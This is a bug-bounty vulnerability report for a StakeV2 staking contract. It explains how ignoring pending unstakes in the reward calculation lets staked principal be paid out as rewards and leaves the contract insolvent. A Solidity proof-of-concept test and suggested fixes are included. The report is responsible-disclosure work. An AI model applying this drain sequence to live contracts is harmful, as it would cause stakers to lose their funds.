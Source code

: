 ## Platform : ImmuneFi

## Severity : Critical

## Title

Critical Balance/Supply Desynchronization Leading to Protocol Insolvency and Loss of User Funds

## Detail

A critical vulnerability in StakeV2's reward distribution mechanism allows manipulation of accumulatedDeptRewardsYeet() through stake/unstake patterns, leading to protocol insolvency and permanent loss of user funds. The issue creates a "bank run" scenario where early unstakers get paid using other users' funds, ultimately leaving late unstakers with total loss of principal.

## Vulnerability Details

- Core Issue
```solidity
function accumulatedDeptRewardsYeet() public view returns (uint256) {
    return stakingToken.balanceOf(address(this)) - totalSupply; 
}
```

The function fails to account for pending unstakes, creating a desynchronization between balanceOf and totalSupply

### Technical Flow

Note: I used eth but in this context eth means yeet.

- Initial State:
```
// Three users stake 100 ETH each
Alice stakes: 100 ETH
Bob stakes: 100 ETH
Victim stakes: 100 ETH
Contract balance: 300 ETH
totalSupply: 300 ETH
```

- Attack Pattern:
```
// Victim starts unstake
victim.startUnstake(100 ETH);
// since startUnstake reduces totalsupply by unstake amount(100) immediately
// State: balance = 300 ETH, totalSupply = 200 ETH
// Creates fake rewards: 100 ETH

// Protocol distributes "rewards"
executeRewardDistributionYeet(100 ETH)
// Transfers victim's pending unstake tokens
// Contract balance: 200 ETH
Cascading Insolvency:
// Victim unstakes using Alice's tokens
victim.unstake(0)     // Gets 100 ETH
// Balance: 100 ETH

// Alice unstakes using Bob's tokens
alice.unstake(0)      // Gets 100 ETH
// Balance: 0 ETH

// Bob attempts unstake
bob.unstake(0)        // FAILS - No funds left
```

In this case we have two victims

- Bob : late/last unstaker whose unstake failed due to insufficient contract balance.

- Victim : whose stake was incorrectly used as reward due to the contracts failure to account for pending unstakes during accumulatedDeptRewardsYeet()

### Impact Details

- Protocol Insolvency:

1. Contract becomes unable to meet staking obligations
2. Each reward distribution reduces available funds
Creates unsustainable "first to withdraw" scenario

- Direct Loss of User Funds:
1. Late unstakers lose 100% of principal
2. Not just yield or rewards at risk
3. Permanent and unrecoverable loss

- Systemic Impact:
1. Affects all stakers in the protocol
2. Creates bank run incentive
3. Undermines core protocol functionality

## Proof of Concept

I included this test function in StakeV2.test.sol

```solidity
function test_chainReactionFundLoss() public {
    address alice = makeAddr("alice");
    address bob = makeAddr("bob");
    address victim = makeAddr("victim");
    
    // Setup - 100 ETH stakes each
    token.mint(alice, 100 ether);
    token.mint(bob, 100 ether);
    token.mint(victim, 100 ether);
    
    // Initial stakes
    vm.startPrank(alice);
    token.approve(address(stakeV2), 100 ether);
    stakeV2.stake(100 ether);
    vm.stopPrank();
    
    vm.startPrank(bob);
    token.approve(address(stakeV2), 100 ether);
    stakeV2.stake(100 ether);
    vm.stopPrank();
    
    vm.startPrank(victim);
    token.approve(address(stakeV2), 100 ether);
    stakeV2.stake(100 ether);
    
    // Create fake rewards
    stakeV2.startUnstake(100 ether);
    vm.stopPrank();
    
    // Distribute fake rewards
    mockZapper.setReturnValues(0, 100 ether);
    vm.prank(address(this));
    stakeV2.executeRewardDistributionYeet(...);
    
    // Victim unstakes (uses Alice's tokens)
    vm.warp(block.timestamp + 10 days);
    vm.prank(victim);
    stakeV2.unstake(0);
    
    // Alice unstakes (uses Bob's tokens)
    vm.startPrank(alice);
    stakeV2.startUnstake(100 ether);
    vm.warp(block.timestamp + 10 days);
    stakeV2.unstake(0);
    vm.stopPrank();
    
    // Bob loses everything
    vm.startPrank(bob);
    stakeV2.startUnstake(100 ether);
    vm.warp(block.timestamp + 10 days);
    vm.expectRevert();
    stakeV2.unstake(0);
    
    // Verify loss
    assertEq(token.balanceOf(bob), 0, "Bob lost all funds");
    assertEq(token.balanceOf(address(stakeV2)), 0, "Contract insolvent");
}
```

## Recommended Mitigation

To fix this issue kindly consider :

- Track Pending Unstakes:
```solidity
mapping(address => uint256) public pendingUnstakes;

function accumulatedDeptRewardsYeet() public view returns (uint256) {
    uint256 actualBalance = stakingToken.balanceOf(address(this)) - totalPendingUnstakes;
    require(actualBalance >= totalSupply, "Balance/Supply mismatch");
    return actualBalance - totalSupply;
}
```
Or

- Safe Reward Distribution:

```solidity
function executeRewardDistributionYeet(...) external {
    uint256 rewards = accumulatedDeptRewardsYeet();
    require(rewards > 0 && rewards <= availableForDistribution(), "Invalid rewards");
    // ... distribution logic
}

function availableForDistribution() internal view returns (uint256) {
    return stakingToken.balanceOf(address(this)) 
           - totalSupply 
           - totalPendingUnstakes;
}
```

